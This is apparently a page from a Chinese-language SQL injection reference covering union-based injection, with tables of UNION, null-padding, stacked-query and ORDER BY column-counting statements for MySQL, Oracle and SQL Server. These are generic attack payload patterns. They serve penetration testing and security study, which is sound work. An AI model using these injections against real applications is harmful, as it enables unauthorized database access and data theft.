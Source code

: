 ### 联合查询注入 {docsify-ignore-all}

基于联合的SQL注入允许攻击者通过扩展原始查询返回的结果来从数据库中提取信息。 仅当原始/新查询具有相同结构（列的数量和数据类型）时，才能使用联合运算符。

#### MySQL

| 描述   |      语句     |  
|----------|:-------------:|
| 联合   |      SELECT "mysql" UNION SELECT @@version     |  
| 联合子查询   |      SELECT "mysql" UNION (select @@version)     |  
| 联合null <br />注意：如果原始查询返回多个列，则添加null以等于列数   |      SELECT "mysql","test" UNION SELECT @@version,null     |  
| 堆叠查询 <br />注意：堆叠查询并不总是返回结果，因此它们最适合用于更新/修改数据的注入。   |      SELECT "mysql"; INSERT INTO 'docs' ('content') VALUES ((SELECT @@version))     |  


#### Oracle

| 描述   |      语句     |  
|----------|:-------------:|
| 联合   |      SELECT user FROM dual UNION SELECT * FROM v$version    | 
| 联合子查询   |      SELECT user FROM dual UNION (SELECT * FROM v$version)     |  
| 联合null <br />注意：如果原始查询返回多个列，则添加null以等于列数  |      SELECT user,dummy FROM dual UNION (SELECT banner,null FROM v$version)     |  



#### SQL Server

| 描述   |      语句     |  
|----------|:-------------:|
| 联合   |      	SELECT user UNION SELECT @@version     |  
| 联合子查询   |      	SELECT user UNION (SELECT @@version)     |  
| 联合null<br  /> 注意：如果原始查询返回多个列，则添加null以等于列数   |      SELECT user,system_user UNION (SELECT @@version,null)     |  
| 联合null二进制减半 <br />注意：此查询用于检测列数。[numberOfColumns]大于列数则返回错误，从而找到表中列的数目。   |      SELECT * FROM yourtable ORDER BY [numberOfColumns]     |  
| 堆积式查询 <br />注意：堆积式查询并不总是返回结果，因此它们最适合用于更新/修改数据的注入。   |      SELECT @@version; SELECT @@version --     |  


